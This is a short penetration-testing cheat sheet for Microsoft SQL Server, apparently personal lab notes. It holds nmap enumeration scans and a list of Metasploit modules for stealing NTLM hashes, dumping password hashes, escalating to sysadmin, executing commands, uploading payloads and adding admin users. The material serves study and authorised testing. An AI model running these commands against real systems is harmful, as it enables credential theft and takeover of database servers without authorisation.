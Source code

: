 # mssql

**Author:** Julien Bongars  
**Date:** 2025-10-14 18:12:36
**Path:** 

---

# Enumeration

```bash
# Locate sql client
locate mssqlclient

# Default port is TCP Port 1433

# Nmap script scan
sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 10.129.201.248

# Metasploit mssql_ping
msf6 auxiliary(scanner/mssql/mssql_ping) > set rhosts {target ip} [[need]] to get into the msf console and select the protocol first

# Connect with Mssqlclient.py
python3 mssqlclient.py Administrator@{target ip} -windows-auth
```

## Metasploit

```bash
#Set USERNAME, RHOSTS and PASSWORD
#Set DOMAIN and USE_WINDOWS_AUTHENT if domain is used

#Steal NTLM
msf> use auxiliary/admin/mssql/mssql_ntlm_stealer #Steal NTLM hash, before executing run Responder

#Info gathering
msf> use admin/mssql/mssql_enum #Security checks
msf> use admin/mssql/mssql_enum_domain_accounts
msf> use admin/mssql/mssql_enum_sql_logins
msf> use auxiliary/admin/mssql/mssql_findandsampledata
msf> use auxiliary/scanner/mssql/mssql_hashdump
msf> use auxiliary/scanner/mssql/mssql_schemadump

#Search for insteresting data
msf> use auxiliary/admin/mssql/mssql_findandsampledata
msf> use auxiliary/admin/mssql/mssql_idf

#Privesc
msf> use exploit/windows/mssql/mssql_linkcrawler
msf> use admin/mssql/mssql_escalate_execute_as #If the user has IMPERSONATION privilege, this will try to escalate
msf> use admin/mssql/mssql_escalate_dbowner #Escalate from db_owner to sysadmin

#Code execution
msf> use admin/mssql/mssql_exec #Execute commands
msf> use exploit/windows/mssql/mssql_payload #Uploads and execute a payload

#Add new admin user from meterpreter session
msf> use windows/manage/mssql_local_auth_bypass
```